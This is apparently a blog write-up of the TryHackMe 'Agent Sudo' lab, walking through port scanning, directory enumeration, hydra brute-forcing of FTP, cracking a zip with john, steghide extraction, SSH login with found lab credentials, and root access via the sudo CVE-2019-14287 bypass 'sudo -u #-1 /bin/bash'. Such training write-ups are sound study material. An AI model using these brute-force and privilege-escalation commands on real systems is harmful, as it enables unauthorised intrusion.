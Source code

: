 ```yaml
---
title: TryHackMe - Agent Sudo
author: Bonface
date: 31/10/2024
categories: [TryHackMe]
tags: [tryhackme, linux, web, privesc, bruteforce, hydra, suid, john, crack, gobuster]
---
```


# Agent Sudo

You found a secret server located under the deep sea.  
Your task is to hack inside the server and reveal the truth.

#### Task 2: [Enumerate](##Enumerate)
### Task 3: Hash cracking and [brute-force](#bruteforce)

### Task 4: Capture the user flag  
### Task 5: Privilege escalation


##  Enumerate
### nmap

### ip = 10.10.55.182
```sh 
nmap -sV -sC -v 10.10.224.246
```

```sh
Scanning 10.10.224.246 [1000 ports]
Discovered open port 22/tcp on 10.10.224.246
Discovered open port 21/tcp on 10.10.224.246
Discovered open port 80/tcp on 10.10.224.246

21/tcp  open     ftp            vsftpd 3.0.3

22/tcp  open     ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)

80/tcp  open     http           Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

902/tcp filtered iss-realsecure

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

### Http_80

 **ip**  `10.10.55.182`

**To Do List**  
- run gobuster
- surf the web  
- view source code  
- robots.txt  
- gobuster  

```sh
gobuster dir -u http://10.10.55.182 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
### Result
Nothing much 

### surf the web

![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101306.png)

Let's try spoofing as C and get the same URL with curl.  
-A allows us to spoof the user agent and -L follows any redirects.

![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101415.png)

Now we have a user `chris` but not sure it's for ssh or ftp.

### ftp-21

# bruteforce
```sh
hydra -L users.txt -P passwords.txt <IP> ftp 
# hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.55.182 ftp
```

![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101444.png)

## Result
ftp details  
- user name: chris  
- password: crystal  
log in!!!
```sh
ftp chris@10.10.55.182 
```

![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101527.png)


we got the file, concatenate it:  
![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101543.png)


Will have to go back and get the images. We run binwalk on the png file which is the most likely to contain some hidden files.

We get these three files:
i
- 365  
- 365.zlib  
- 8702.zip  
- To_agentR.txt  

The zip file is encrypted. We can use john to crack the password:

```sh
zip2john 8702.zip > forjohn
john forjohn.txt
```

![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101614.png)

Password = alien  
Unzip the files. 
 
You may get errors extracting the files using unzip, if so, use 7z e `zipfile`
```sh
 7z e 8702.zip
 ```  

Use `CyberChef` to decode  
`QXJlYTUx` = `Area51` = password for `steg`.  
We can now use `steghide` on the image that we never used.
```sh
steghide info cute-alien.jpg 
steghide extract -sf cute-alien.jpg 
cat message.txt
```

![robots](/assets/images/Agent_sudo/Pasted%20image%2020241023204845.png)


### Details
With these details and the unused port (22 = ssh), we can try logging in.

Details 
- username: `james`
- password: `hackerrules!`

```sh
 ssh james@10.10.55.182 
# password = hackerrules!
```
![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101901.png)

# Privilege escalation
Run sudo -l  
![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101951.png)

Google search for the exploit: CVE:2019-14287  
In the exploit page, we get:  
```sh
 'sudo -u #-1 /bin/bash'
 #Read the root flag. 
```
![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016102023.png)
